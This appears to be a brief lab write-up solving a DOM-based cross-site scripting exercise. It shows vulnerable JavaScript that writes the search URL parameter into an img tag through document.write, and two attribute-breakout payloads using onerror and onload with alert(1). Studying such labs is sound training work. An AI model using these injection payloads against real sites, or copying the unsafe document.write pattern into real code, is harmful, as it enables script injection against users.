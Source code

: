 Lab description says search functionality is vulnerable. Searching something (`asd`) then looking at the page source 

```javascript
<script>
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}

var query = (new URLSearchParams(window.location.search)).get('search');

if(query) {
    trackSearch(query);
}
</script>


<img src="/resources/images/tracker.gif?searchTerms= esmkw9dh4="">
```

We can see `document.write` function just appends our string to an HTML tag attribute.

To escape out of `img` tag we can give the following string to search bar

```
a" onerror="alert(1)"
```

It will execute alert function but lab won't be solved. Trying every `on*` attribute I found that it wants `onload` attribute.


```
a" onload="alert(1)"
```
